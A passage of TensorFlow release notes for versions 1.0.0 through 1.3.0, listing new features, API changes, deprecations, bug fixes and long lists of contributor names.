David Kristoffersson, David Norman, David RöThlisberger, DavidNorman, Dhruv, DimanNe,
Dorokhov, Duncan Mac-Vicar P, EdwardDixon, EMCP, error.d, FAIJUL, Fan Xia,
Francois Xavier, Fred Reiss, Freedom" Koan-Sin Tan, Fritz Obermeyer, Gao, Xiang,
Guenther Schmuelling, Guo Yejun (郭叶军), Hans Gaiser, HectorSVC, Hyungsuk Yoon,
James Pruegsanusak, Jay Young, Jean Wanka, Jeff Carpenter, Jeremy Rutman, Jeroen BéDorf,
Jett Jones, Jimmy Jia, jinghuangintel, jinze1994, JKurland, Joel Hestness, joetoth,
John B Nelson, John Impallomeni, John Lawson, Jonas, Jonathan Dekhtiar, joshkyh, Jun Luan,
Jun Mei, Kai Sasaki, Karl Lessard, karl@kubx.ca, Kb Sriram, Kenichi Ueno, Kevin Slagle,
Kongsea, Lakshay Garg, lhlmgr, Lin Min, liu.guangcong, Loki Der Quaeler, Louie Helm,
lucasmoura, Luke Iwanski, Lyndon White, Mahmoud Abuzaina, Marcel Puyat, Mark Aaron Shirley,
Michele Colombo, MtDersvan, Namrata-Ibm, Nathan Luehr, Naurril, Nayana Thorat, Nicolas Lopez,
Niranjan Hasabnis, Nolan Liu, Nouce, Oliver Hennigh, osdamv, Patrik Erdes,
Patryk Chrabaszcz, Pavel Christof, Penghao Cen, postBG, Qingqing Cao, Qingying Chen, qjivy,
Raphael, Rasmi, raymondxyang, Renze Yu, resec, Roffel, Ruben Vereecken, Ryohei Kuroki,
sandipmgiri, Santiago Castro, Scott Kirkland, Sean Vig, Sebastian Raschka, Sebastian Weiss,
Sergey Kolesnikov, Sergii Khomenko, Shahid, Shivam Kotwalia, Stuart Berg, Sumit Gouthaman,
superzerg, Sven Mayer, tetris, Ti Zhou, Tiago Freitas Pereira, Tian Jin, Tomoaki Oiki,
Vaibhav Sood, vfdev, Vivek Rane, Vladimir Moskva, wangqr, Weber Xie, Will Frey,
Yan Facai (颜发才), yanivbl6, Yaroslav Bulatov, Yixing Lao, Yong Tang, youkaichao,
Yuan (Terry) Tang, Yue Zhang, Yuxin Wu, Ziming Dong, ZxYuan, 黄璞

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 1.3.0

See also [TensorBoard 0.1.4](https://github.com/tensorflow/tensorboard/releases/tag/0.1.4) release notes.

## Major Features and Improvements
* Added canned estimators to Tensorflow library. List of added estimators:
  * `DNNClassifier`
  * `DNNRegressor`
  * `LinearClassifier`
  * `LinearRegressor`
  * `DNNLinearCombinedClassifier`
  * `DNNLinearCombinedRegressor`.
* All our prebuilt binaries have been built with cuDNN 6. We anticipate releasing TensorFlow 1.4 with cuDNN 7.
* `import tensorflow` now goes much faster.
* Adds a file cache to the GCS filesystem with configurable max staleness for file contents. This permits caching of file contents across close/open boundaries.
* Added an axis parameter to `tf.gather`.
* Added a `constant_values` keyword argument to `tf.pad`.
* Adds `Dataset.interleave` transformation.
* Add `ConcatenateDataset` to concatenate two datasets.
* Added Mobilenet support to TensorFlow for Poets training script.
* Adds a block cache to the GCS filesystem with configurable block size and count.
* SinhArcSinh bijector added.
* Added `Dataset.list_files` API.
* Introduces new operations and Python bindings for the Cloud TPU.
* Adding TensorFlow-iOS CocoaPod for symmetry with tensorflow-android.
* Introduces base implementations of ClusterResolvers.
* Unify memory representations of TensorShape and PartialTensorShape. As a consequence, tensors now have a maximum of 254 dimensions, not 255.
* Changed references to LIBXSMM to use version 1.8.1.
* TensorFlow Debugger (tfdbg):
  * Display summaries of numeric tensor values with the `-s` flag to command `print_tensor` or `pt`.
  * Display feed values with the `print_feed` or `pf` command and clickable links in the curses UI.
  * Runtime profiler at the op level and the Python source line level with the `run -p` command.
* Initial release of the statistical distribution library `tf.distributions`.
* GPU kernels and speed improvements for unary `tf.where` and `tf.nn.top_k`.
* Monotonic Attention wrappers added to `tf.contrib.seq2seq`.
* Added `tf.contrib.signal`, a library for signal processing primitives.
* Added `tf.contrib.resampler`, containing CPU and GPU ops for differentiable resampling of images.

## Breaking Changes to the API
* `tf.RewriterConfig` was removed from the Python API after being available in 1.2 release candidates (it was never in an actual release). Graph rewriting is still available, just not as `tf.RewriterConfig`. Instead add an explicit import.
* Breaking change to `tf.contrib.data.Dataset` APIs that expect a nested structure. Lists are now converted to `tf.Tensor` implicitly. You may need to change uses of lists to tuples in existing code. In addition, dicts are now supported as a nested structure.

## Changes to contrib APIs
* Adds tf.contrib.nn.rank_sampled_softmax_loss, a sampled-softmax variant that can improve rank loss.
* `tf.contrib.metrics`.{streaming_covariance,streaming_pearson_correlation} modified to return nan when they have seen less or equal to 1 unit of weight.
* Adds time series models to contrib. See contrib/timeseries/README.md for details.
* Adds FULLY_CONNECTED Op to tensorflow/lite/schema.fbs

## Known Issues
* Tensorflow_gpu compilation fails with Bazel 0.5.3.

## Bug Fixes and Other Changes
* Fixes `strides` and `begin` dtype mismatch when slicing using int64 Tensor index in python.
* Improved convolution padding documentation.
* Add a tag constant, gpu, to present graph with GPU support.
* `saved_model.utils` now support SparseTensors transparently.
* A more efficient implementation of non-max suppression.
* Add support for the shrinkage-type L2 to FtrlOptimizer in addition to the online L2 it already supports.
* Fix negative variance in moments calculation.
* Expand UniqueOp Benchmark Tests to cover more collision cases.
* Improves stability of GCS filesystem on Mac.
* Add time estimation to HloCostAnalysis.
* Fixed the bug in Estimator that params in constructor was not a deepcopy of the user provided one. This bugs inadvertently enabled user to mutate the params after the creation of Estimator, leading to potentially undefined behavior.
* Added None check for save_path in `saver.restore`.
* Register devices under their legacy names in device_mgr to ease the transition to clusterspec-propagated configurations.
* VectorExponential added to distributions.
* Add a bitwise module with bitwise_and, bitwise_or, bitwise_xor, and invert functions.
* Add fixed-grid ODE integration routines.
* Allow passing bounds to ScipyOptimizerInterface.
* Correctness fixes for fft_length parameter to `tf.spectral.rfft` & `tf.spectral.irfft`.
* Exported model signatures using the 'predict' method will no longer have their input and output keys silently ignored and rewritten to 'inputs' and 'outputs'. If a model was exported with different names before 1.2, and is now served with tensorflow/serving, it will accept requests using 'inputs' and 'outputs'. Starting at 1.2, such a model will accept the keys specified during export. Therefore, inference requests using 'inputs' and 'outputs' may start to fail. To fix this, either update any inference clients to send requests with the actual input and output keys used by the trainer code, or conversely, update the trainer code to name the input and output Tensors 'inputs' and 'outputs', respectively. Signatures using the 'classify' and 'regress' methods are not affected by this change; they will continue to standardize their input and output keys as before.
* Add in-memory caching to the Dataset API.
* Set default end_of_sequence variable in datasets iterators to false.
* [Performance] Increase performance of `tf.layers.conv2d` when setting use_bias=True by 2x by using nn.bias_add.
* Update iOS examples to use CocoaPods, and moved to tensorflow/examples/ios.
* Adds a family= attribute in `tf.summary` ops to allow controlling the tab name used in Tensorboard for organizing summaries.
* When GPU is configured, do not require --config=cuda, instead, automatically build for GPU if this is requested in the configure script.
* Fix incorrect sampling of small probabilities in CPU/GPU multinomial.
* Add a list_devices() API on sessions to list devices within a cluster. Additionally, this change augment the ListDevices master API to support specifying a session.
* Allow uses of over-parameterized separable convolution.
* TensorForest multi-regression bug fix.
* Framework now supports armv7, cocoapods.org now displays correct page.
* Script to create iOS framework for CocoaPods.
* Android releases of TensorFlow are now pushed to jcenter for easier integration into apps. See https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/inference_interface/README.md for more details.
* TensorFlow Debugger (tfdbg):
  * Fixed a bug that prevented tfdbg from functioning with multi-GPU setups.
  * Fixed a bug that prevented tfdbg from working with `tf.Session.make_callable`.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4F2E4A2E, Adriano Carmezim, Adrià Arrufat, Alan Yee, Alex Lattas, Alex Rothberg,
Alexandr Baranezky, Ali Siddiqui, Andreas Solleder, Andrei Costinescu, Andrew Hundt,
Androbin, Andy Kernahan, Anish Shah, Anthony Platanios, Arvinds-Ds, b1rd, Baptiste
Arnaud, Ben Mabey, Benedikt Linse, Beomsu Kim, Bo Wang, Boyuan Deng, Brett Koonce,
Bruno Rosa, Carl Thomé, Changming Sun, Chase Roberts, Chirag Bhatia, Chris Antaki,
Chris Hoyean Song, Chris Tava, Christos Nikolaou, Croath Liu, cxx, Czxck001, Daniel
Ylitalo, Danny Goodman, Darren Garvey, David Brailovsky, David Norman, DavidNorman,
davidpham87, ddurham2, Dhruv, DimanNe, Drew Hintz, Dustin Tran, Earthson Lu, ethiraj,
Fabian Winnen, Fei Sun, Freedom" Koan-Sin Tan, Fritz Obermeyer, Gao, Xiang, Gautam,
Guenther Schmuelling, Gyu-Ho Lee, Hauke Brammer, horance, Humanity123, J Alammar,
Jayeol Chun, Jeroen BéDorf, Jianfei Wang, jiefangxuanyan, Jing Jun Yin, Joan Puigcerver,
Joel Hestness, Johannes Mayer, John Lawson, Johnson145, Jon Malmaud, Jonathan Alvarez-Gutierrez,
Juang, Yi-Lin, Julian Viereck, Kaarthik Sivashanmugam, Karl Lessard, karl@kubx.ca, Kevin
Carbone, Kevin Van Der Burgt, Kongsea, ksellesk, lanhin, Lef Ioannidis, Liangliang He,
Louis Tiao, Luke Iwanski, LáSzló Csomor, magixsno, Mahmoud Abuzaina, Marcel Hlopko, Mark
Neumann, Maxwell Paul Brickner, mdfaijul, MichaëL Defferrard, Michał JastrzęBski, Michele
Colombo, Mike Brodie, Mosnoi Ion, mouradmourafiq, myPrecious, Nayana Thorat,
Neeraj Kashyap, Nelson Liu, Niranjan Hasabnis, Olivier Moindrot, orome, Pankaj Gupta, Paul
Van Eck, peeyush18, Peng Yu, Pierre, preciousdp11, qjivy, Raingo, raoqiyu, ribx, Richard S.
Imaoka, Rishabh Patel, Robert Walecki, Rockford Wei, Ryan Kung, Sahil Dua, Sandip Giri, Sayed
Hadi Hashemi, sgt101, Shitian Ni, Shuolongbj, Siim PõDer, Simon Perkins, sj6077, SOLARIS,
Spotlight0xff, Steffen Eberbach, Stephen Fox, superryanguo, Sven Mayer, Tapan Prakash,
Tiago Morais Morgado, Till Hoffmann, Tj Rana, Vadim Markovtsev, vhasanov, Wei Wu,
windead, Yan (Asta) Li, Yan Chen, Yann Henon, Yi Wang, Yong Tang, yorkie, Yuan (Terry)
Tang, Yuxin Wu, zhengjiajin, zhongzyd, 黄璞

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 1.2.1

## Bug Fixes and Other Changes
* Updating markdown version required to >= 2.6.8.
* Support tensors as dropout rates again, by removing the min(max(..))

# Release 1.2.0

## Major Features and Improvements
* Python 3.6 support on Windows.
* Added `tf.layers.conv3d_transpose` layer for spatio temporal deconvolution.
* Added `tf.Session.make_callable()`, which provides a lower overhead means of running a similar step multiple times.
* Added libverbs-based RDMA support to contrib (courtesy @junshi15 from Yahoo).
* Bring `tf.feature_column.*` into the API. Non-deprecated functionality from `tf.contrib.layers.*` is moved to `tf.feature_column.*` with cosmetic changes.
* `RNNCell` objects now subclass `tf.layers.Layer`.  The strictness described
  in the TensorFlow 1.1 release is gone:  The first time an RNNCell is used,
  it caches its scope.  All future uses of the RNNCell will reuse variables from
  that same scope.  This is a breaking change from the behavior of RNNCells
  in TensorFlow versions <= 1.0.1.  TensorFlow 1.1 had checks in place to
  ensure old code works correctly with the new semantics; this version
  allows more flexible uses of RNNCell but can lead to subtle errors if
  using code meant for TensorFlow <= 1.0.1.  For example, writing:
  `MultiRNNCell([lstm] * 5)` will now build a 5-layer LSTM stack where each
  layer shares the **same** parameters.  To get 5 layers each with their own
  parameters, write: `MultiRNNCell([LSTMCell(...) for _ in range(5)])`.
  If at all unsure, first test your code with TF 1.1; ensure it raises no
  errors, and then upgrade to TF 1.2.
* RNNCells' variable names have been renamed for consistency with Keras layers.
  Specifically, the previous variable names "weights" and "biases" have
  been changed to "kernel" and "bias", respectively.
  This may cause backward incompatibility with regard to your old
  checkpoints containing such RNN cells, in which case you can use the tool
  [checkpoint_convert script](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/contrib/rnn/python/tools/checkpoint_convert.py)
  to convert the variable names in your old checkpoints.
* Many of the RNN functions and classes that were in the `tf.nn` namespace
  before the 1.0 release and which were moved to `tf.contrib.rnn` have now
  been moved back to the core namespace.  This includes
  `RNNCell`, `LSTMCell`, `GRUCell`, and a number of other cells.  These
  now reside in `tf.nn.rnn_cell` (with aliases in `tf.contrib.rnn` for backwards
  compatibility).  The original `tf.nn.rnn` function is now `tf.nn.static_rnn`,
  and the bidirectional static and state saving static rnn functions are also
  now back in the `tf.nn` namespace.

  Notable exceptions are the `EmbeddingWrapper`, `InputProjectionWrapper` and
  `OutputProjectionWrapper`,  which will slowly be moved to deprecation
  in `tf.contrib.rnn`.  These are inefficient wrappers that should often
  be replaced by calling `embedding_lookup` or `layers.dense` as pre- or post-
  processing of the rnn.  For RNN decoding, this functionality has been replaced
  with an alternative API in `tf.contrib.seq2seq`.
* Intel MKL Integration (https://software.intel.com/en-us/articles/tensorflow-optimizations-on-modern-intel-architecture). Intel developed a number of
  optimized deep learning primitives: In addition to matrix multiplication and
  convolution, these building blocks include:
  Direct batched convolution
  Pooling: maximum, minimum, average
  Normalization: LRN, batch normalization
  Activation: rectified linear unit (ReLU)
  Data manipulation: multi-dimensional transposition (conversion), split,
  concat, sum and scale.
* TensorForest Estimator now supports SavedModel export for serving.
* Support client-provided ClusterSpec's and propagate them to all workers to enable the creation of dynamic TensorFlow clusters.
* TensorFlow C library now available for Windows.
* We released a new open-source version of TensorBoard.
* [`SavedModel CLI`](https://www.tensorflow.org/versions/master/guide/saved_model_cli) tool available to inspect and execute MetaGraph in SavedModel
* Android releases of TensorFlow are now pushed to jcenter for easier
  integration into apps. See
  https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/inference_interface/README.md
  for more details.

## Deprecations

* TensorFlow 1.2 may be the last time we build with cuDNN 5.1. Starting with
  TensorFlow 1.3, we will try to build all our prebuilt binaries with cuDNN 6.0.
  While we will try to keep our source code compatible with cuDNN 5.1, it will
  be best effort.

## Breaking Changes to the API
* `org.tensorflow.contrib.android.TensorFlowInferenceInterface` now throws exceptions where possible and has simplified method signatures.

## Changes to contrib APIs
* Added `tf.contrib.util.create_example`.
* Added bilinear interpolation to `tf.contrib.image`.
* Add `tf.contrib.stateless` for random ops with custom seed control.
* MultivariateNormalFullCovariance added to contrib/distributions/
* tensorflow/contrib/rnn undergoes RNN cell variable renaming for
  consistency with Keras layers. Specifically, the previous variable names
  "weights" and "biases" are changed to "kernel" and "bias", respectively.
  This may cause backward incompatibility with regard to your old
  checkpoints containing such RNN cells, in which case you can use the
  [checkpoint_convert script](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/contrib/rnn/python/tools/checkpoint_convert.py)
  to convert the variable names in your old checkpoints.
* Added `tf.contrib.kernel_methods` module with Ops and estimators for primal
  (explicit) kernel methods in TensorFlow.

## Bug Fixes and Other Changes
* In python, `Operation.get_attr` on type attributes returns the Python DType
  version of the type to match expected get_attr documentation rather than the
  protobuf enum.
* tensorflow/contrib/rnn undergoes RNN cell variable renaming for
  consistency with Keras layers. Specifically, the previous variable names
  "weights" and "biases" are changed to "kernel" and "bias", respectively.
* Changed MIN_SDK version to 8.0 when building iOS libraries.
* Fixed LIBXSMM integration.
* Make decode_jpeg/decode_png/decode_gif handle all formats, since users frequently try to decode an image as the wrong type.
* Improve implicit broadcasting lowering.
* Improving stability of GCS/BigQuery clients by a faster retrying of stale transmissions.
* Remove OpKernelConstruction::op_def() as part of minimizing proto dependencies.
* VectorLaplaceDiag distribution added.
* Android demo no longer requires libtensorflow_demo.so to run (libtensorflow_inference.so still required)
* Added `categorical_column_with_vocabulary_file`.
* Introduce ops for batching/unbatching tensors across Session::Run() calls.
* Add tf.log_sigmoid(x) = tf.log(tf.sigmoid(x)) = -tf.nn.softplus(-x).
* Changed hooks lists to immutable tuples, and now allow any iterable for the associated arguments.
* Introduce TFDecorator.
* Added an Mfcc op for speech feature generation.
* Improved DirectSession::Run() overhead and error checking. Feeding a value of the wrong type will now synchronously raise an INVALID_ARGUMENT error instead of asynchronously raising an INTERNAL error. Code that depends on the (undefined) behavior when feeding a tensor of the wrong type may need to be updated.
* Added unreduced NONE, and reduced MEAN options for losses. Removed "WEIGHTED_" prefix from other Reduction constants.
* assertAllClose now handles dicts.
* Added Gmock matcher for HloInstructions.
* Add var name to errors on variable restore.
* Added an AudioSpectrogram op for audio feature generation.
* Added `reduction` arg to losses.
* `tf.placeholder` can represent scalar shapes and partially known.
* Remove estimator_spec(mode) argument.
* Added an AudioSpectrogram op for audio feature generation.
* TensorBoard disables all runs by default if there are more than 40 runs.
* Removed old doc generator code.
* GCS file system integration now supports domain buckets, e.g gs://bucket.domain.com/path.
* Add `tf.summary.text` for outputting text to TensorBoard.
* The "run" command of tfdbg's command-line interface now supports filtering of tensors by node name, op type and tensor dtype.
* `tf.string_to_number` now supports int64 and float64 outputs.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

4F2E4A2E, Aaron Schumacher, Abhi Agg, admcrae, Adriano Carmezim, Adrià Arrufat,
agramesh1, Akimitsu Seo, Alan Mosca, Alex Egg, Alex Rothberg, Alexander Heinecke,
Alexander Matyasko, Alexandr Baranezky, Alexandre Caulier, Ali Siddiqui, Anand Venkat,
Andrew Hundt, Androbin, Anmol Sharma, Arie, Arno Leist, Arron Cao, AuréLien Geron, Bairen Yi,
Beomsu Kim, Carl Thomé, cfperez, Changming Sun, Corey Wharton, critiqjo, Dalei Li, Daniel
Rasmussen, Daniel Trebbien, DaríO Hereñú, David Eng, David Norman, David Y. Zhang, Davy Song, ddurham2,
Deepak Subburam, Dmytro Kyrychuk, Dominic Rossi, Dominik SchlöSser, Dustin Tran,
Eduardo Pinho, Egil Martinsson, Elliot Saba, Eric Bigelow, Erik Smistad, Evan Klitzke,
Fabrizio Milo, Falcon Dai, Fei Gao, FloopCZ, Fung Lam, Gautam, GBLin5566, Greg Peatfield,
Gu Wang, Guenther Schmuelling, Hans Pabst, Harun Gunaydin, Huaizheng, Ido Shamay, Ikaro
Silva, Ilya Edrenkin, Immexxx, James Mishra, Jamie Cooke, Jay Young, Jayaram Bobba,
Jianfei Wang, jinghua2, Joey Meyer, John Maidens, Jonghoon Jin, Julian Villella,
Jun Kim, Jun Shi, Junwei Pan, jyegerlehner, Karan Desai, Karel Van De Plassche,
Kb Sriram, KhabarlakKonstantin, Koan-Sin Tan, krivard, Kwotsin, Leandro Gracia Gil,
Li Chen, Liangliang He, Louie Helm, lspvic, Luiz Henrique Soares, LáSzló Csomor,
Mark Wong, Mathew Wicks, Matthew Rahtz, Maxwell Paul Brickner, Michael Hofmann, Miguel
Flores Ruiz De Eguino, MikeTam1021, Mortada Mehyar, Mycosynth, Namnamseo,
Nate Harada, Neven Miculinic, Nghia Tran, Nick Lyu, Niranjan Hasabnis, Nishidha, Oleksii
Kuchaiev, Oyesh Mann Singh, Panmari, Patrick, Paul Van Eck, Piyush Chaudhary, Quim Llimona,
Raingo, Richard Davies, Ruben Vereecken, Sahit Chintalapudi, Sam Abrahams, Santiago Castro,
Scott Sievert, Sean O'Keefe, Sebastian Schlecht, Shane, Shubhankar Deshpande, Spencer Schaber,
Sunyeop Lee, t13m, td2014, Thomas H. P. Andersen, Toby Petty, Umang Mehta,
Vadim Markovtsev, Valentin Iovene, Vincent Zhao, Vit Stepanovs, Vivek Rane, Vu Pham, wannabesrevenge,
weipingpku, wuhaixutab, wydwww, Xiang Gao, Xiaolin Lin, xiaoyaozhuzi, Yaroslav Bulatov, Yi Liu,
Yoshihiro Sugi, Yuan (Terry) Tang, Yuming Wang, Yuxin Wu, Zader Zheng, Zhaojun Zhang, zhengjiajin,
ZhipengShen, Ziming Dong, zjj2wry

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.

# Release 1.1.0

## Major Features and Improvements
* Added Java API support for Windows.
* Added `tf.spectral` module. Moved existing FFT ops to `tf.spectral` while
  keeping an alias in the old location (`tf.*`).
* Added 1D, 2D and 3D Fourier transform ops for real signals to `tf.spectral`.
* Added a `tf.bincount` function.
* Added Keras 2 API to contrib.
* Added a new lightweight queue-like object - `RecordInput`.
* Added `tf.contrib.image.compose_transforms` function.
* Bring `tf.estimator.*` into the API. Non-deprecated functionality from `tf.contrib.learn.Estimator` is moved to `tf.estimator.Estimator` with cosmetic changes.
* Docker images: TF images on gcr.io and Docker Hub are upgraded to ubuntu:16.04.
* Added the following features to TensorFlow Debugger (tfdbg):
  * Ability to inspect Python source file against TF ops and tensors (command `print_source` / `ps`)
  * New navigation bar in Curses-based UI
  * NodeStepper (command `invoke_stepper`) now uses intermediate tensor dumps. It also uses `TensorHandles` as direct feeds during successive `cont` calls for improved performance and reduced memory consumption.
* Initial release of installation guides for Java, C, and Go.
* Added Text Dashboard to TensorBoard.

## Deprecations

* TensorFlow 1.1.0 will be the last time we release a binary with Mac GPU support. Going forward, we will stop testing on Mac GPU systems. We continue to welcome patches that maintain Mac GPU support, and we will try to keep the Mac GPU build working.

## Changes to contrib APIs
* The behavior of RNNCells is now stricter due to the transition towards making RNNCells act more like Keras layers.
  * If an RNNCell is used twice in two different variable scopes, an error is raised describing how to avoid this behavior.
  * If an RNNCell is used in a variable scope with existing conflicting variables, an error is raised showing that the RNNCell must be constructed with argument `reuse=True`.
* Deprecated contrib/distributions `pmf`, `pdf`, `log_pmf`, `log_pdf`.
* Moved `bayesflow.special_math` to distributions.
* `tf.contrib.tensor_forest.python.tensor_forest.RandomForestDeviceAssigner` removed.
* Changed some MVN classes and parameters:
  * `tf.contrib.distributions.MultivariateNormalFull` replaced by `tf.contrib.distributions.MultivariateNormalTriL`.
  * `tf.contrib.distributions.MultivariateNormalCholesky` replaced by `tf.contrib.distributions.MultivariateNormalTriL`
  * `tf.contrib.distributions.MultivariateNormalDiagWithSoftplusStDev` replaced
    by `tf.contrib.distributions.MultivariateNormalDiagWithSoftplusScale`
  * `tf.contrib.distributions.MultivariateNormalDiag` arguments changed from `mu`, `diag_stddev` to `log`, `scale_diag`.
  * `tf.contrib.distributions.MultivariateNormalDiagPlusVDVT` removed.
  * `tf.contrib.distributions.MultivariateNormalDiagPlusLowRank` added.

## Bug Fixes and Other Changes
* Java: Support for loading models exported using the SavedModel API (courtesy @EronWright).
* Go: Added support for incremental graph execution.
* Fix a bug in the WALS solver when single-threaded.
* Added support for integer sparse feature values in `tf.contrib.layers.sparse_column_with_keys`.
* Fixed `tf.set_random_seed(0)` to be deterministic for all ops.
* Stability improvements for the GCS file system support.
* Improved TensorForest performance.
* Added support for multiple filename globs in `tf.matching_files`.
* `LogMessage` now includes a timestamp as beginning of a message.
* Added MultiBox person detector example standalone binary.
* Android demo: Makefile build functionality added to build.gradle to fully support building TensorFlow demo in Android on Windows.
* Android demo: read MultiBox priors from txt file rather than protobuf.
* Added colocation constraints to `StagingArea`.
* `sparse_matmul_op` reenabled for Android builds.
* Restrict weights rank to be the same as the broadcast target, to avoid ambiguity on broadcast rules.
* Upgraded libxsmm to 1.7.1 and applied other changes for performance and memory usage.
* Fixed bfloat16 integration of LIBXSMM sparse mat-mul.
* Improved performance and reduce memory usage by allowing ops to forward input buffers to output buffers and perform computations in-place.
* Improved the performance of CPU assignment for strings.
* Speed up matrix * vector multiplication and matrix * matrix with unknown shapes.
* C API: Graph imports now support input remapping, control dependencies, and returning imported nodes (see `TF_GraphImportGraphDefWithReturnOutputs()`)
* Multiple C++ API updates.
* Multiple TensorBoard updates including:
  * Users can now view image summaries at various sampled steps (instead of just the last step).
  * Bugs involving switching runs as well as the image dashboard are fixed.
  * Removed data download links from TensorBoard.
  * TensorBoard uses a relative data directory, for easier embedding.
  * TensorBoard automatically ignores outliers for domain calculation, and formats proportional values consistently.
* Multiple tfdbg bug fixes:
  * Fixed Windows compatibility issues.
  * Command history now persists across runs.
  * Bug fix in graph validation related to `tf.while_loops`.
* Java Maven fixes for bugs with Windows installation.
* Backport fixes and improvements from external keras.
* Keras config file handling fix.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

A. Besir Kurtulmus, Adal Chiriliuc, @akash, Alec-Desouza, Alex Rothberg, Alex
Sergeev, Alexander Heinecke, Allen Guo, Andreas Madsen, Ankesh Anand, Anton
Loss, @Aravind, @Arie, Ashutosh Das, AuréLien Geron, Bairen Yi, @bakunyo, Ben
Visser, Brady Zhou, Calpa Liu, Changming Sun, Chih Cheng Liang, Christopher
Berner, Clark Zinzow, @Conchylicultor, Dan Ellis, Dan J, Dan Jarvis, Daniel
Ylitalo, Darren Garvey, David Norman, David Truong, @DavidNorman, Dimitar
Pavlov, Dmitry Persiyanov, @Eddie, @elirex, Erfan Noury, Eron Wright, Evgeny
Mazovetskiy, Fabrizio (Misto) Milo, @fanlu, Fisher Coder, Florian Courtial,
Franck Dernoncourt, Gagan Goel, Gao, Xiang, @Gautam, Gefu Tang, @guilherme,
@guschmue, Hannah Provenza, Hans Pabst, @hartb, Hsiao Yi, Huazuo Gao, Igor
ChorążEwicz, Ivan Smirnov, Jakub Kolodziejczyk, Jason Gavris, Jason Morton, Jay
Young, Jayaram Bobba, Jeremy Sawruk, Jiaming Liu, Jihun Choi, @jiqiu, Joan Thibault,
John C F, Jojy George Varghese, Jon Malmaud, Julian Berman, Julian Niedermeier,
Junpeng Lao, Kai Sasaki, @Kankroc, Karl Lessard, Kyle Bostelmann, @Lezcano, Li
Yi, Luo Yun, @lurker, Mahmoud-Abuzaina, Mandeep Singh, Marek Kolodziej, Mark
Szepieniec, Martial Hue, Medhat Omr, Memo Akten, Michael Gharbi, MichaëL Defferrard,
Milan Straka, @MircoT, @mlucool, Muammar Ibn Faisal, Nayana Thorat, @nghiattran,
Nicholas Connor, Nikolaas Steenbergen, Niraj Patel, Niranjan Hasabnis, @Panmari,
Pavel Bulanov, Philip Pries Henningsen, Philipp Jund, @polonez, Prayag Verma, Rahul
Kavi, Raphael Gontijo Lopes, @rasbt, Raven Iqqe, Reid Pryzant, Richard Shin, Rizwan
Asif, Russell Kaplan, Ryo Asakura, RüDiger Busche, Saisai Shao, Sam Abrahams, @sanosay,
Sean Papay, @seaotterman, @selay01, Shaurya Sharma, Sriram Narayanamoorthy, Stefano
Probst, @taknevski, @tbonza, @teldridge11, Tim Anglade, Tomas Reimers, Tomer Gafner,
Valentin Iovene, Vamsi Sripathi, Viktor Malyi, Vit Stepanovs, Vivek Rane, Vlad Firoiu,
@wangg12, @will, Xiaoyu Tao, Yaroslav Bulatov, Yi Liu, Yuan (Terry) Tang, @Yufeng,
Yuming Wang, Yuxin Wu, Zafar Takhirov, Ziming Dong

We are also grateful to all who filed issues or helped resolve them, asked and
answered questions, and were part of inspiring discussions.


# Release 1.0.1

## Bug Fixes and Other Changes
* Change GraphConstructor to not increase the version when importing, but instead take the min of all versions.
* Google Cloud Storage fixes.
* Removed `tf.core` and `tf.python` modules from the API. These were never intended to be exposed. Please use the same objects through top-level `tf` module instead.

# Release 1.0.0

## Major Features and Improvements
* XLA (experimental): initial release of [XLA](https://www.tensorflow.org/versions/master/experimental/xla/), a domain-specific compiler for TensorFlow graphs, that targets CPUs and GPUs.
* TensorFlow Debugger (tfdbg): command-line interface and API.
* New python 3 docker images added.
* Made pip packages pypi compliant. TensorFlow can now be installed by `pip
  install tensorflow` command.
* Several python API calls have been changed to resemble NumPy more closely.
* Android: person detection + tracking demo implementing Scalable Object
  Detection using Deep Neural Networks.
* New (experimental) [Java API](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/java).
* Add new Android image stylization demo based on "A Learned Representation For Artistic Style", and add YOLO object detector support.

## Breaking Changes to the API
To help you upgrade your existing TensorFlow Python code to match the API changes below, we have prepared a [conversion script](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/compatibility).
* TensorFlow/models have been moved to a separate github repository.
* Division and modulus operators (/, //, %) now match Python (flooring)
  semantics. This applies to `tf.div` and `tf.mod` as well. To obtain forced
  integer truncation based behaviors you can use `tf.truncatediv`
  and `tf.truncatemod`.
* `tf.divide()` is now the recommended division function. `tf.div()` will
  remain, but its semantics do not respond to Python 3 or `from future`
  mechanisms.
* tf.reverse() now takes indices of axes to be reversed. E.g.
  `tf.reverse(a, [True, False, True])` must now be written as
  `tf.reverse(a, [0, 2])`. `tf.reverse_v2()` will remain until 1.0 final.
* `tf.mul`, `tf.sub` and `tf.neg` are deprecated in favor of `tf.multiply`,
  `tf.subtract` and `tf.negative`.
* `tf.pack` and `tf.unpack` are deprecated in favor of `tf.stack` and
  `tf.unstack`.
* `TensorArray.pack` and `TensorArray.unpack` are getting deprecated in favor of
  `TensorArray.stack` and `TensorArray.unstack`.
* The following Python functions have had their arguments changed to use `axis`
  when referring to specific dimensions. We have kept the old keyword arguments
  for compatibility currently, but we will be removing them well before the
  final 1.0.
  * `tf.argmax`: `dimension` becomes `axis`
  * `tf.argmin`: `dimension` becomes `axis`
  * `tf.count_nonzero`: `reduction_indices` becomes `axis`
  * `tf.expand_dims`: `dim` becomes `axis`
  * `tf.reduce_all`: `reduction_indices` becomes `axis`
  * `tf.reduce_any`: `reduction_indices` becomes `axis`
  * `tf.reduce_join`: `reduction_indices` becomes `axis`
  * `tf.reduce_logsumexp`: `reduction_indices` becomes `axis`
  * `tf.reduce_max`: `reduction_indices` becomes `axis`
  * `tf.reduce_mean`: `reduction_indices` becomes `axis`
  * `tf.reduce_min`: `reduction_indices` becomes `axis`
  * `tf.reduce_prod`: `reduction_indices` becomes `axis`
  * `tf.reduce_sum`: `reduction_indices` becomes `axis`
  * `tf.reverse_sequence`: `batch_dim` becomes `batch_axis`, `seq_dim` becomes `seq_axis`
  * `tf.sparse_concat`: `concat_dim` becomes `axis`
  * `tf.sparse_reduce_sum`: `reduction_axes` becomes `axis`
